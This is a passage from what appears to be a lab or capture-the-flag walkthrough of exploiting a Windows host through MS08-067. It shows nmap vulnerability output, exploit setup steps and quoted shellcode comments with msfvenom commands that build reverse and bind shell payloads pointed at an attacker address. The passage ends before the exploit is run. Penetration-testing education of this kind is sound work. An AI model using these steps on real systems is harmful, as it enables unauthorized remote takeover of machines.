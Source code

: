 ```bash
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

The box appears to be vulnerable to both [ms08-067](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) and [ms17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010).  These are both worth investigating, but this post will cover ms08-067.

## Getting System with ms08-067

Some browsing reveals a nice [Github repo](https://github.com/andyacer/ms08_067) for ms08-067 hosted by Github user _andyacer_.  The README states that we need Impacket 0_9_17, and helpfully provides the instructions on installing it:

```bash
git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
cd impacket
pip install .
```

Then we can clone the exploit repository.

```bash
# git clone https://github.com/andyacer/ms08_067
Cloning into 'ms08_067'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37
Unpacking objects: 100% (37/37), 13.00 KiB | 2.60 MiB/s, done.
# cd ms08_067/
/ms08_067# ls
LICENSE  ms08_067_2018.py  README.md
```

Based on the source code, we will need to generate our own shellcode that the exploit will execute.  The script provides some sample commands for `msfvenom`.

#### ms08-067.py shellcode section

```python
# ------------------------------------------------------------------------
# REPLACE THIS SHELLCODE with shellcode generated for your use
# Note that length checking logic follows this section, so there's no need to count bytes or bother with NOPS.
#
# Example msfvenom commands to generate shellcode:
# msfvenom -p windows/shell_bind_tcp RHOST=10.11.1.229 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Reverse TCP to 10.11.0.157 port 62000:
```